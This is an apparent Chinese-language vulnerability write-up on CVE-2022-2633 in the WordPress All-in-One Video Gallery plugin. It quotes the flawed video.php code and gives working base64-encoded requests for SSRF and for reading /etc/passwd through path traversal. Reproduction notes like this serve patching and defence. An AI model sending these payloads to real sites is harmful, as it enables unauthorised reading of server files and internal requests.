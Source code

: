 # WordPress All-in-One Video Gallery video.php 任意文件读取漏洞 CVE-2022-2633

## 漏洞描述

WordPress All-in-One Video 插件 Gallery video.php文件中存在SSRF以及任意文件读取漏洞，攻击者通过发送特定的请求包读取任意文件

## 漏洞影响

<a-checkbox checked>WordPress All-in-One Video Gallery  <= 2.6.0</a-checkbox></br>

## 插件名

<a-checkbox checked>All-in-One Video Gallery</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/all-in-one-video-gallery.2.6.0.zip</a-checkbox></br>

## 漏洞复现

对比漏洞修复的文件找到出现漏洞的文件 wp-content/plugins/all-in-one-video-gallery/public/video.php

![img](/assets/PeiQi-Wiki/img/1665396901441-051cdcb4-9932-48f7-96f7-b57aa55b37b0.png)

这里接收 dl 参数，dl 参数不为 数字类型时，参数将 base64 解码传入

```sql
		if ( is_numeric( $_GET['dl'] ) ) {
			$file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
		} else {
			$file = base64_decode( $_GET['dl'] );
		}

		if ( empty( $file ) ) {
			die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
           	exit;
        }
```

![img](/assets/PeiQi-Wiki/img/1665398476539-d7b73586-47fb-49ac-aefc-75518d40abf3.png)

当传入的参数中不存在 http:// 或 https:// 时，参数 $formatted_path 的值改变

![img](/assets/PeiQi-Wiki/img/1665400025228-ec8b2210-1683-4f95-b05d-085338323586.png)

当 $formatted_path 为 url 时存在 SSRF漏洞，传入 base64编码 的目标URL就可以得到回显

```sql
/index.php/video/?dl=aHR0cHM6Ly93d3cuYmFpZHUuY29t
```

![img](/assets/PeiQi-Wiki/img/1665400131718-e35e3a69-9fef-4717-b22c-25e07f659dac.png)

看向代码最后的片段，则存在任意文件读取漏洞

![img](/assets/PeiQi-Wiki/img/1665400190046-5f6608e0-f8d6-4291-ba23-9d468a95ac46.png)

```sql
/index.php/video/?dl=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

![img](/assets/PeiQi-Wiki/img/1665400254761-b7c390f4-6412-4104-a806-856aabf21e98.png)